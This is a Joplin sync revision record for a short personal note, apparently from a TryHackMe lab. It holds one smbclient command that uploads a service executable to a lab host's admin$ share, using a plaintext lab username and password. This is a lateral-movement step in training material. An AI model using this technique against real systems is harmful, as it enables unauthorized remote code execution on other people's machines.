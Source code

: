 id: 3c799c7ef7c645a98598feaf0551b618
parent_id: 
item_type: 1
item_id: 28a55a6545314caab741853c10403c66
item_updated_time: 1657617064562
title_diff: "[{\"diffs\":[[1,\"SMBClient (SMB)\"]],\"start1\":0,\"start2\":0,\"length1\":0,\"length2\":15}]"
body_diff: "[{\"diffs\":[[1,\"> smbclient -c 'put myservice.exe' -U t1_leonard.summers -W ZA '//thmiis.za.tryhackme.com/admin$/' EZpass4ever\"]],\"start1\":0,\"start2\":0,\"length1\":0,\"length2\":110}]"
metadata_diff: {"new":{"id":"28a55a6545314caab741853c10403c66","parent_id":"819fca2060d64809bbdac4fc93fdd86a","latitude":"0.00000000","longitude":"0.00000000","altitude":"0.0000","author":"","source_url":"","is_todo":0,"todo_due":0,"todo_completed":0,"source":"joplin-desktop","source_application":"net.cozic.joplin-desktop","application_data":"","order":0,"markup_language":1,"is_shared":0,"share_id":"","conflict_original_id":"","master_key_id":""},"deleted":[]}
encryption_cipher_text: 
encryption_applied: 0
updated_time: 2022-07-12T09:13:19.290Z
created_time: 2022-07-12T09:13:19.290Z
type_: 13